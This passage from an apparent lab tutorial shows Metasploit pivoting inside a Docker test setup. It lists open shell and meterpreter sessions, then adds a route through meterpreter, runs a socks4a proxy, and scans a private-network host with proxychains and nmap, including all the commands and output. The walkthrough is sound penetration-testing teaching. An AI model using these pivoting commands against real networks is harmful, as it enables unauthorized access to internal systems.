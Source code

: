     Active sessions
    ===============

    Id  Name  Type                   Information                                            Connection
    --  ----  ----                   -----------                                            ----------
    1         shell unknown          SSH pentester:letspivot (172.21.0.2:22)                172.21.0.3:42077 -> 172.21.0.2:22 (172.21.0.2)
    2         meterpreter x86/linux  uid=1000, gid=1000, euid=1000, egid=1000 @ 172.20.0.2  172.21.0.3:4433 -> 172.21.0.2:57642 (172.21.0.2)

One slight complication with the docker setup I am showing is the networking. I have setup two internal docker networks, public and private, which in my examples are 172.20.0.0/24 (private) and 172.21.0.0/24 (public). Normally you would use the meterpreter session to enumerate network access, but I am going to skip that here and just setup a proxy to the private network.

### Setup and run a socks proxy over meterpreter

Here we add a route to the private network and setup a socks proxy. I change the meterpreter port to the default proxychains port, but you could also use the default port and update /etc/proxychains.conf with the new route if desired.

    # In Metasploit
    msf5 auxiliary(scanner/ssh/ssh_login) > route add 172.20.0.0/24 2
    [*] Route added
    msf5 auxiliary(scanner/ssh/ssh_login) > use auxiliary/server/socks4a
    msf5 auxiliary(server/socks4a) > set SRVPORT 9050
    SRVPORT => 9050
    msf5 auxiliary(server/socks4a) > run -j
    [*] Auxiliary module running as background job 3.

    [*] Starting the socks4a proxy server
    msf5 auxiliary(server/socks4a) > 

    ### Now in a separate command window, I will create a new session
    ### on the meterpreter container to use nmap and proxychains
    $ docker exec -it pivots_metasploit_1 /bin/bash
    root@ffd95ec9ce94:/$ proxychains nmap -sT -P0 -p8080,9001 172.20.0.3
    ProxyChains-3.1 (http://proxychains.sf.net)

    Starting Nmap 7.60 ( https://nmap.org ) at 2019-09-19 13:08 UTC
    |S-chain|-<>-127.0.0.1:9050-<><>-172.20.0.3:8080-<><>-OK
    |S-chain|-<>-127.0.0.1:9050-<><>-172.20.0.3:9001-<><>-OK
    Nmap scan report for 172.20.0.3
    Host is up (0.0025s latency).

    PORT     STATE SERVICE
    8080/tcp open  http-proxy
    9001/tcp open  tor-orport
